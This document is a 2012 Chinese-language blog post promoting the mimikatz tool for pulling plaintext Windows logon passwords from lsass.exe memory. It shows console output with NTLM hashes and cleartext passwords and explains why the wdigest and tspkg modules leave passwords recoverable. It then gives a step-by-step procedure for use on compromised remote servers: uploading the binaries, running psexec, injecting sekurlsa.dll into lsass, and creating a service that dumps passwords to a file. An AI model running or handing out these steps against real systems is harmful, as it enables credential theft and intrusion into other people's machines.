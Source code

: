 ```yaml
---
author: admin
comments: true
date: 2012-02-25 02:09:54+00:00
layout: post
slug: password-tools-mimikatz
title: 神器mimikatz
wordpress_id: 911
categories:
- 工具
---
```


法国佬写的一款工具，可以抓取windows明文密码。


> mimikatz 1.0 x86 (pre-alpha) /* Traitement du Kiwi */
> 
> mimikatz # privilege::debug
> Demande d'ACTIVATION du privilège : SeDebugPrivilege : OK
> 
> mimikatz # inject::process lsass.exe sekurlsa.dll
> 
> PROCESSENTRY32(lsass.exe).th32ProcessID = 488
> 
> Attente de connexion du client...
> 
> Serveur connecté à un client !
> 
> Message du processus :
> 
> Bienvenue dans un processus distant
> 
> Gentil Kiwi
> 
> SekurLSA : librairie de manipulation des données de sécurités dans LSASS
> 
> mimikatz # @getLogonPasswords
> 
> Authentification Id : 0;434898
> 
> Package d'authentification : NTLM
> 
> Utilisateur principal : Gentil User
> 
> Domaine d'authentification : vm-w7-ult
> 
> msv1_0 : lm{ e52cac67419a9a224a3b108f3fa6cb6d }, ntlm{ 8846f7eaee8fb117ad06bdd830b7586c }
> 
> wdigest : password
> 
> tspkg : password
> 
> Authentification Id : 0;269806
> 
> Package d'authentification : NTLM
> 
> Utilisateur principal : Gentil Kiwi
> 
> Domaine d'authentification : vm-w7-ult
> 
> msv1_0 : lm{ d0e9aee149655a6075e4540af1f22d3b }, ntlm
> { cc36cf7a8514893efccd332446158b1a }
> 
> wdigest : waza1234/
> 
> tspkg : waza1234/


经测试，通杀：
> Windows Server 2003
> 
> Windows Server 2008
> 
> Windows Vista
> 
> Windows 7
> 
> Windows 7 SP1

貌似只有 Windows 2000 与 Windows XP 无法使用。 不过，2000/xp 可以用以前的 FindPassword ，Windows 2003 - Windows 7 微软的这个处理机制没有变。 域也可以，理论上是没问题的，登录过都在 lsass.exe 里面。

**原理**

> 原理就是登陆的时候输入的密码，经过 lsass.exe 里的 wdigest 和 tspkg 两个模块调用后，它们对之进行加密处理，而没有进行擦除，而且该加密通过特征可以定位，并且按照微软的算法可逆。只要登陆过，就可以抓出来，它进行枚举的，这一切都是微软的错。 也就是说，开机以后，只要是登陆过的用户，在没重启前（因为重启内存就清零了，这里不包括使用其他方法清理内存），都可以抓出来，注销也是无用的，因为内存中的密码并没有清除，所以还是可以抓出来的。
这应该算是密码泄露，很严重的漏洞，估计微软会出补丁。

**在远程终端（3389、mstsc.exe）、虚拟桌面中抓取密码的方法**

通常你在远程终端中运行该程序会提示：存储空间不足，无法处理此命令。
这是因为在终端模式下，不能插入远线程，跨会话不能注入，将以下文件打包后上传至目标服务器，然后解压释放，注意路径中绝对不能有中文（可以有空格）！否则加载DLL的时候会报错：找不到文件。

> mimikatz_trunktoolsPsExec.exe
> 
> mimikatz_trunkWin32mimikatz.exe
> 
> mimikatz_trunkWin32sekurlsa.dll


然后使用以下任何一种方法即可抓取密码：


> //最简单实用的方法，使用 PsExec.exe 启动。
> 
> //在本机启动交互式命令提示窗口
> 
> psexec \127.0.0.1 cmd.exe
> 
> //启动 mimikatz.exe
> 
> C:mimikatz_trunkWin32mimikatz.exe
> 
> //提升权限
> 
> privilege::debug
> 
> //注入dll，要用绝对路径！并且路径中绝对不能有中文（可以有空
> 格）！
> 
> inject::process lsass.exe
> 
>  "C:mimikatz_trunkWin32sekurlsa.dll"
>  
> //抓取密码
> 
> @getLogonPasswords
> 
> //退出，不要用 ctrl + c，会导致 mimikatz.exe CPU 占用达到 100%，死循环。
> 
> exit
> 
> //*********************************************************
> 
> //使用 At 启动
> 
> at ***
> 
> //*********************************************************
> 
> //创建服务方法
> 
> sc create getpassword binpath= "cmd.exe /c
> 
> c:xxxmimikatz.exe < command.txt password.txt"
> 
> sc start getpassword
> 
> sc delete getpassword
> 
> //*********************************************************
> 
> //telnet 远程命令管道
> 
> telnet ****
> 
> 
> 原文见: http://blog.gentilkiwi.com/mimikatz
> 参考链接：
> 
> http://lcx.cc/?FoxNews=2265.html
> 
> http://hi.baidu.com/hackercasper/blog/item/b080dbd05eb6a5cc562c8461.html
